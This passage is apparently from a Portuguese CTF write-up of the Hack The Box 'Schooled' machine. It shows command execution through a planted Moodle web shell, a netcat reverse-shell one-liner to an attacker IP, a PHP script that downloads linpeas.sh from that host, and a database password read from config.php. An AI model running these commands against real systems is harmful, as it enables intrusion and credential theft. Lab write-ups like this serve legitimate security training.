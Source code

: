   ```bash
  $ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=id'
  uid=80(www) gid=80(www) groups=80(www)
  
  $ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc "10.10.10.10" 4443 >/tmp/f'
  ```

## User Flag

Agora com um shell interativo com a conta `www-data`, iniciei a enumeração da máquina. Como de costume, iniciei com a execução do `linpeas.sh` mas descobri que `wget` e `curl` não estavam disponível, então escrevi um simples script php para baixar os arquivos dos quais precisava.

```bash
echo "<?php" > wget.php
echo "\$url = 'http://10.10.10.10/linpeas.sh';" >> wget.php
echo "\$file = '/tmp/linpeas.sh';" >> wget.php
echo "\$current = file_get_contents(\$url);" >> wget.php
echo "file_put_contents(\$file, \$current);" >> wget.php
echo "?>" >> wget.php

/usr/local/bin/php wget.php
```

A partir da execução, a seguintes informações foram obtidas:

* Usuários com console e suas permissões:

  ```plaintext
  jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
  root:*:0:0:Charlie &:/root:/bin/csh
  steve:*:1002:1002:User &:/home/steve:/bin/csh
  ```

* Senha para o banco de dados do Moodle no arquivo `/usr/local/www/apache24/data/moodle/config.php` :

  ```plaintext
  $CFG->dbtype    = 'mysqli';
  $CFG->dbhost    = 'localhost';
  $CFG->dbuser    = 'moodle';
  $CFG->dbpass    = 'PlaybookMaster2020';
  'dbport' => 3306,
  ```

Logo após executar a enumeração, descobri que apenas nos faltava alguns caminhos no PATH, encontrando o binário do `curl`. Este ajuste no PATH também foi necessário para executar o comando `mysql`, necessário para que pudesse realizar o dump das informações necessárias a partir do banco de dados. Esta atividade foi feita de forma não interativa, já que não consegui promover meu shell para um TTY.

```bash
$ find / -type f 2>/dev/null | grep -e "wget$" -e "curl$" -e "mysql$"
/usr/local/bin/curl
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/wget
/usr/local/share/bash-completion/completions/curl
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/zsh/site-functions/_curl
/var/mail/mysql
```
